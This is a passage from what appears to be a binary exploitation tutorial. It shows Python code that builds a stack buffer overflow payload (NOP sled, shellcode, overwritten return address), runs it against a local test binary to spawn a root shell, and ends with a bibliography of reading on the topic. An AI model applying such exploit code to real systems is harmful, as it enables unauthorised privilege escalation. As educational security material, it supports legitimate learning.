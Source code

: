 I will use the same python code with two tweaks.
- Change the offset.
- Change the RET address.

{% highlight python %}
buff = b"\x90"*(288-len(shellcode))
sys.stdout.buffer.write(buff+shellcode+rbp+b"\xc0\xe3\xff\xff\xff\x7f")
{% endhighlight %}

Time to test it.
{% highlight python %}
KnuckleSecurity :: -> ./stackBased.elf $(python stackBased.py)
bash-5.1: whoami
root
bash-5.1: id
uid=0(root) gid=984(users) groups=984(users),969(libvirt),998(wheel)
{% endhighlight %}

Sweet taste of the victory ;)


# Bibliography
* [**wikipedia.com-Function Prologue and Epilogue**](https://en.wikipedia.org/wiki/Function_prologue_and_epilogue)<br>

* [**feliclouiter.com-Leave**](https://www.felixcloutier.com/x86/leave)<br>

* [**valsamaras.medium.com-Introduction to X64 Binary Exploitation Part-1**](https://valsamaras.medium.com/introduction-to-x64-linux-binary-exploitation-part-1-14ad4a27aeef)<br>

* [**Book-Practical Reverse Engineering**](https://www.amazon.co.uk/Practical-Reverse-Engineering-Reversing-Obfuscation/dp/1118787315)

* [**Book-Hacking: The Art Of Exploitation**](https://www.amazon.co.uk/Hacking-Art-Exploitation-Jon-Erickson/dp/1593271441)

* [**wikipedia.com-Memory Hierarchy**](https://en.wikipedia.org/wiki/Memory_hierarchy)

* [**wikipedia.com-Assembly Language**](https://en.wikipedia.org/wiki/Assembly_language)

* [**eli.thegreenplace.net-Stack Frame Layout on x86_64**](https://eli.thegreenplace.net/2011/09/06/stack-frame-layout-on-x86-64)

* [**techtarget.com-What is Definition Register**](https://www.techtarget.com/whatis/definition/register)

* [**ref.x86asm.net-Coder64**](http://ref.x86asm.net/coder64.html)

* [**isss.io-Resource**](https://www.isss.io/resources)

* [**ctf101.org-Binary Exploitation Overview**](https://ctf101.org/binary-exploitation/overview/)

* [**wikipedia-Calling Convention x86_64**](https://en.wikipedia.org/wiki/Calling_convention#x86-64)
